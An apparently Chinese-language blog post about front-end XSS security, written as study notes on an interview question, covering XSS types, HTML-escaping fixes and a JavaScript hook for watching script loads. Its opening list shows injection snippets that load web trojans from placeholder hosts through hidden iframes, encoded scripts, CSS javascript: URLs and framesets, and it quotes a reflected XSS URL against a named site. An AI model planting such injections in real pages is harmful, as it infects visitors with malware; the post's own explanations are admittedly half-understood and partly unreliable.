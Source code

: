 title: front-end-security-xss
date: 2015-09-02 21:25:28
categories: blog
tags: [front-end,xss,hook,前端安全]
---
##概述
没想到这样一个问题，还把自己搞得有点昏了。不过在找寻答案的过程中，我知道自己是快乐的！虽然没有自己解答出这个问题，但是收获颇多。特别是看了人家一步一步思考问题的方式，感悟是大大的。

##问题
xss作为web前端常用的注入漏洞，在现在的互联网业务中其危险性不亚于其他攻击方式，请编写过滤函数
1.通过异步请求拿到的json数据后，如何安全的使用innerHtml显示在页面上
2.浏览器地址栏直接获取的参数，如何安全地进行document.write
3.后台直接输出完整的html页面，如何保证页面渲染后，用户内容的< script >不被执行.

<!-- more -->
##分析
这里提出的就是xxs方式，那么这3个小题中的innerHtml,document.write,script肯定就是“坑”了。

##前端常见xss

1.iframe: 

    document.write("<iframe width='0' height='0' src='地址'></iframe>"); 	//保存为xxx.js

则JS代码为:
	
	<script  src='xxx.js'></script> 
    

2.js变形加密

    
    <script language="JScript.Encode" src=http://www.xxx.com/muma.txt></script> //muma.txt 可改成任意后缀

3.flash

    
    http://网页木马地址 插入木马地址 width=10 height=10", "GET" 宽度和高度，方式后面的照添，更改木马地址就可以了。


4.隐蔽方式：

	    
    top.document.body.innerHTML=top.document.body.innerHTML+'\r\n<iframe src="http://www.xxx.com/muma.htm/"></iframe>'[/url]

5.css中xss：

	
    body {background-image:url('javascript:document.write("<script src=http://www.XXX.net/muma.js></script>")')}

6.图片伪装：
	
	
    <html> 
        <iframe src="网马地址" height=0 width=0></iframe> 
        <img src="图片地址"></center> 
    </html>

7.伪装调用：


    <frameset rows="444,0" cols="*"> 
    <frame src="打开网页" framborder="no" scrolling="auto" noresize marginwidth="0" margingheight="0"> 
    <frame src="网马地址" frameborder="no" scrolling="no" noresize marginwidth="0" margingheight="0">

##原理

xss(cross site script)跨站脚本攻击
通过属性"src"加载来执行代码在获取网站或者网站服务器的部分或者全部权限后，在网页文件中插入一段恶意代码，
来实现攻击。

##xss类型
这个是在阿里面试的时候问道这个问题的，但是之前并没有很详细地区分xss的类型。只知道某种方式。

1.DOM—based XSS

该漏洞是基于文档对象模型Document Objeet Model,DOM)触发的。
    
	<div id="print"></div>

	//javascript
	var text = document.getElementById("print");
	print.innerHTML = text.value;

解决方式：

* 编码方式

        //将要转换的字符串设置为这个元素的innerText(ie支持)或者textContent(火狐，google支持)
        (temp.textContent != undefined ) ? (temp.textContent = html) : (temp.innerText = html);

        //返回这个元素的innerHTML，即得到经过HTML编码转换的字符串了
        var output = temp.innerHTML;


* 解码方式

		//将要转换的字符串设置为这个元素的innerHTML(ie，火狐，google都支持)
        temp.innerHTML = text;

        //返回这个元素的innerText(ie支持)或者textContent(火狐，google支持)，即得到经过HTML解码的字符串了。
        var output = temp.innerText || temp.textContent;


2.存储型xss

即通常我们在录入数据时通过闭合标签的方式把数据存储到数据库中，再次显示的时候触发。

解决方式：转义标签

	如：
		<  转义为  &lt； 
		>  转义为  &gt； 


3.反射型xss

仍然来自于直接的用户输入，是在通过url控制了页面的输出（处理：转义字符）根据浏览器去bypass各种过滤，易用性稍微差一些。但最后在页面中显示出来，并需要用户自己去点击链接才能触发XSS的是反射型XSS。

	如：

		http://www.jpl.nasa.gov/about_JPL /maps.cfm?departure=lax%22 %3Cimg%20src=k.png%20onerror=alert(%22XSSed%20by%20sH%22)%20/%3E

##MutationEvent何许
HTML5中添加，提供主动防御

文章参考：[http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-2/](http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-2/)


##javascript hook
简单钩子实现	

	//暂存变量
	<script>
		var zc = Document.prototype.createElement;

	    Document.prototype.createElement = function() {

	        // 调用原生函数
	        var element = zc.apply(this, arguments);

	        // 为脚本元素安装属性钩子
	        if (element.tagName == 'SCRIPT') {
	            element.__defineSetter__('src', function(url) {
	                console.log('设置路径:', url);
	            });
	        }

	        // 返回元素实例
	        return element;
	    };
	</script>

测试钩子

	<button id="btn">创建脚本</button>
	<script>
	    btn.onclick = function() {
	        var el = document.createElement('script');
	        el.src = 'http://www.etherdream.com/xss/out.js?dynamic';
	        document.body.appendChild(el);
	    };
	</script>

算了，装不下去了。自己也B不清楚，所以下面是广告时间。请使劲戳下面链接。

经典文章：[http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-3/](http://fex.baidu.com/blog/2014/06/xss-frontend-firewall-3/)
	
学习地址：
http://bbs.ikaka.com/showtopic-8625758.aspx